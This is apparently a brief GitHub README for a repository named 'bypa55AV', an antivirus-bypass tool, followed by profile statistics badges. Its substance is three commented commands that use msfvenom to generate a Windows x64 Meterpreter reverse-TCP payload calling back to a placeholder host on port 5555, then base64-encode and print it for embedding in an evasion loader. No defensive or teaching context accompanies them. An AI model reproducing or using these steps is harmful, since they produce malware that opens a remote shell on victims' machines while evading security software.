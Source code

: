 # bypa55AV
// msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=5555 -f raw > rev.raw
// base64 -w 0 -i rev.raw > rev.bs64
// cat rev.bs64

![Xiao tsai's GitHub stats](https://github-readme-stats.vercel.app/api?username=xiaotsai&show_icons=true)

<div align="center">  
  <img  src="https://github-readme-streak-stats.herokuapp.com?user=xiaotsai&theme=onedark&date_format=M%20j%5B%2C%20Y%5D" />
</div>


